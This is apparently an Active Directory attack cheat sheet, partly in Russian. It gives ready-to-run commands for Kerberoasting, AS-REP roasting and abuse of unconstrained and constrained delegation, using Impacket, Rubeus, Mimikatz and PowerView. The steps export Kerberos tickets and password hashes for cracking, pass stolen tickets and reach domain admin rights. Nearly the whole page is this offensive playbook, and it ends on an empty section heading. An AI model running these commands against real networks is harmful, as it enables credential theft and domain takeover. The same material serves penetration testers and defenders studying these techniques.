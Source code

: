 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T DomainName -Q \*/\*  
    - загружаем билеты в память для дальнейних действий.  
    - Add-Type -AssemblyName System.IdentityModel  
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
    - Проверяем, что билет загружен в память: klist  
    - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
        - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
    - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting (Impacket, Rubeus):  

**Description**: AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.  

**Get users NTLMv2 hash with Impacket**: GetNPUsers.py -userfile [file] -outputfile [output filename] -dc-ip [DC IP] domain/  

**Get users NTLMv2 hash with Rubeus**: Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt  

**Aditional information**:  
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast  

## Unconstrained Delegation (Covenant, Rubeus, PowerView):  

**Description**: когда компьютер доверен для делегирования, это означает, что любые службы, работающие в локальной системе, могут запрашивать службы с других серверов от имени пользователя.  

1) Import powerview;  
2) get-netcomputer -unconstrained -properties dnshostname  
   - ms-rprn.exe \\DC \\Workstation  
   - rubeus.exe dump /service:krbtgt //looking for DC ticket;  
3) Copy DC Base64 encoded krbtgt;  
   - Make fake token (Covenant): maketoken administrator <username> <junk password>  
   - rubeus.exe ptt /ticket:<Base64 encoded ticket>  
4) Get Domain Admin Rights.  
    
**Obtain TGT from another compuret (Rubeus)**:  
1) Rubeus.exe monitor /interval:10 /nowrap  
2) SharpSpoolTrigger.exe target_host listener_host  
    
**Aditional information**: https://blog.netwrix.com/2021/11/30/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/  


## Constrained Delegation (Rubrus):  

Rubeus.exe s4u /impersonateuser:username /msdsspn:cifs/dc.corp.local /user:(username OR machine account) /ticket:(user or machine TGT)  
    - /impersonateuser = local admin access on the target machine (dc.corp.local)  
    - /msdsspn is the SPN that /user is allowed to delegate to.  
    - /user is the principal allowed to perform the delegation.  
    - /ticket is the TGT for /user.  


## Alternate Service Name:  


## 
